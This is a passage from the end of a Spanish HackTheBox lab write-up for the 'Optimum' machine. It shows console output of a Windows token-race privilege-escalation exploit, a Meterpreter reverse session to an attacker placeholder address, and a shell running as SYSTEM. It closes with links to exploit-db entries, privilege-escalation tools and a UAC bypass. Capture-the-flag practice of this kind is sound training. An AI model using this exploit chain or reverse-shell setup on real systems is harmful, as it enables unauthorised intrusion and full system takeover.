 ```bash
Cannot convert argument "ExistingTokenHandle", with value: "", for "DuplicateToken" to type "System.IntPtr": "Cannot co
nvert null to type "System.IntPtr"."
At line:259 char:2
+     $f_tJ = [Advapi32]::DuplicateToken($kZYdB, 2, [ref]$rG8)
+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodException
    + FullyQualifiedErrorId : MethodArgumentConversionInvalidCastArgument
. 
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!
.
4EDKxA5vE7QaBz8XYpkCzVQhmf78eB0p
[+] Executed on target machine.
[*] Sending stage (175686 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (Tu_IP:4444 -> 10.10.10.8:49163)
[+] Deleted C:\Users\kostas\AppData\Local\Temp\uFuAbbcLlZcEA.ps1
.
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > shell
Process 1852 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
.
C:\Windows\system32>whoami
whoami
nt authority\system
```

Y listo, con esto hemos completado esta máquina.


<br>
<br>
<div style="position: relative;">
	<h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://www.google.com/search?client=firefox-b-e&q=HFS+2.3+exploit
* https://www.exploit-db.com/exploits/39161
* https://github.com/FuzzySecurity/PowerShell-Suite
* https://github.com/sensepost/ms16-098
* https://rednode.com/privilege-escalation/windows-privilege-escalation-cheat-sheet/ 
* https://github.com/AonCyberLabs/Windows-Exploit-Suggester
* https://www.aon.com/cyber-solutions/aon_cyber_labs/introducing-windows-exploit-suggester/
* https://www.reddit.com/r/learnpython/comments/ft0h3p/windowsexploitsuggester_error/
* https://tecnonucleous.com/2018/04/05/certutil-exe-podria-permitir-que-los-atacantes-descarguen-malware-mientras-pasan-por-alto-el-antivirus/
* https://www.exploit-db.com/exploits/39719
* https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/
